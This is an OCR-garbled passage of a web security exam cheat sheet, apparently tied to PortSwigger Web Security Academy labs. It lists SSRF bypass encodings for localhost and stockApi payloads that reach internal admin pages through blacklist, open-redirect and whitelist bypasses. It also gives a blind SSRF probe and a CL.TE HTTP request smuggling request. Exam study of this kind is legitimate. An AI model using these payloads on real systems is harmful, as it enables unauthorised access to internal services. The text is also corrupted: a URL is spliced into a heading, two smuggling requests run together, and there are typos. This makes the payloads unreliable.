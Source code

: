 ```
</users>
```
## SSRF
If you find an SSRF vulnerability on exam, you can use it to read the files by accessing an internal-only service running on locahost on port 6566.  
[ipconverter](https://h.43z.one/ipconverter/)  
### SSRF Bypass:
```
http://2130706433 instead of http://127.0.0.1
Hex Encoding 127.0.0.1 translates to 0x7f.0x0.0x0.0x1
Octal Encoding 127.0.0.1 translates to 0177.0.0.01
Mixed Encoding 127.0.0.1 translates to 0177.0.0.0x1
http://127.1
```
### Internal Network addresses in CIDR
```
10.0.0.0/8
127.0.0.1/32
172.16.0.0/12
192.168.0.1/16
```
### Exploits
Like XML, the place to find SSRF is at /product/stock check and Host headers
1. Basic SSRF against another back-end system  
```
stockApi=http://192.168.0.34:8080/admin
```
2. SSRF with blacklist-based input filter  
```
stockApi=http://127.1/AdMiN/
```
3. SSRF with filter bypass via open redirection vulnerability  
```
stockApi=/product/nextProduct?currentProductId=2%26path%3dhttp://192.168.0.12:8080/admin
```
4. Blind SSRF with out-of-bhttps://hackerone.com/opportunities/alland detection  
```
Referer: http://burpcollaborator
```
5. SSRF with whitelist-based input filter  
```
stockApi=http://localhost:80%2523@stock.weliketoshop.net/admin/
```
## HTTP request smuggling
Use HTTP Request Smuggler extension for BurpSuite to check (`Smuggle probe`), if there are any possible smugglings and then construct the payload  
### Exploits
1. Use unsupported Method GPOST (CL.TE)  
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencodedPOST / HTTP/1.1
Host: 0a6f008e04ed8481c035778000dc0063.web-security-academy.net
Cookie: session=QjB6AgSHTuzJSZCHdc0al2SJSOtdc5bh
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
tRANSFER-ENCODING: chunked

3
```